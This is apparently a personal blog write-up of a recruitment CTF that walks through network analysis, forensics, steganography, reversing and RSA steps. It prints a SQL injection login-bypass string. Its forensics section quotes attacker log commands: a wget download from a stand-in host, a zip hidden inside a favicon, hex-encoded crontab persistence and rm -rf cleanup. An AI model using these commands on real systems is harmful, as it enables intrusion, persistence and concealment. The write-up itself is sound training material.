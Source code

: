 ```yaml
---
title: "COMCYBER CTF 2024"
date: 2024-08-27 00:00:00 +0800
categories: [CTF]
tags: [CTF]
---
```


# COMCYBER CTF

The September 2 2024, the Commandement de la Cyberdéfense (ComCyber) made a CTF to recruit new people in "cyber sous-officiers"
The challenge was noted easy-medium

I'll talk about my experience in this post and how i manage to solve it, 

if you want to see the official writeup : https://blog.root-me.org/posts/writeup_comcyber/


## First Step : Network Analysis

In the first step of the CTF you need to download a .pcap file and analyze it using Wireshark 

There is a protocol called TELNET which you can filter in wireshark and scrolling through it you can read the first flag encoded,
You can get the first flag by decoding Base64 encoded string,

If you keep searching in the PCAP and follow the UDP Stream, you can acccess to 163.172.68.42.23:5000.

## Second Step : SQL Injection (lol)

The second flag is a login page, you can access it by doing ' or 1=1; -- 


## Third Step : Forensics

In the dashboard you can download a log file, once the file is download i made a small python script ton only get useful informations
```python
filename = 'debug.txt'

with open(filename, 'r') as fichier:
    lignes = fichier.readlines()
lignes_cmd = [ligne for ligne in lignes if 'CMD' in ligne]
for ligne in lignes_cmd:
    print(ligne.strip())
```

You have multiple result but the importants ones are : 


    echo 'efa3fb1f409aa622dddd7220ad6567580fb68b68' > /tmp/.password
    vim message.txt
    wget -O /dev/null https://attacker.site/m4lw3r3
    zip --password ($cat /tmp/.password) secret.zip message.txt m4lw3r3
    cat /app/static/assets/images/favicon.ico ./secret.zip > /app/static/assets/images/favicon.ico
    echo '2a202a202a202a202a20206563686f2027524d7b393835336561303861623734373265653865663237633631363239396461663530653330626439307d270a' | xxd -r -p | crontab -
    crontab -l
    rm -rf ./message.txt ./secret.zip ./m4lw3r3
    rm -rf /tmp/.password


You can get the third flag in Hexadecimal into the crontab


## Fourth Step : Binwalk Steganography

With binwalk you can extract files from the favicon, 

You have a zipfile inside the binwalk which you can extract using the password you found in the logs, 

Once it's extracted you have another flag, in the message.txt

There is also a m4lw3r3

## Fifth Step : Reverse Engineering

Now, you have a m4lw3r3 binary file and when you run it it ask for 2 inputs, [input1] [input2]

Using Ghidra you can reverse the file, the first input, is cut in 3 strings

## Sixth Step : RSA Cryptography

This part was the "hardest part" of the CTF, you need to find the input2, the program is using cryptographic functions for RSA encryptions, using the variables n, e and c, 

Once you have these variables you need to convert it from hexadecimal to decimal, i searched if there were differents vulnerabilities to crack the RSA, using Boneh Durfee or Wiener, but at the end you can do it with Wiener and RSACTFTOOL

When you have the string character you can go back to the dashboard and enable communication, here you have the last flag

## Conclusion

Overall the challenge was fun to do, but i wish it was a bit harder to do the login connection, i hope they will do more CTF like this, and i think it's a good idea to recruit based on CTF ! 

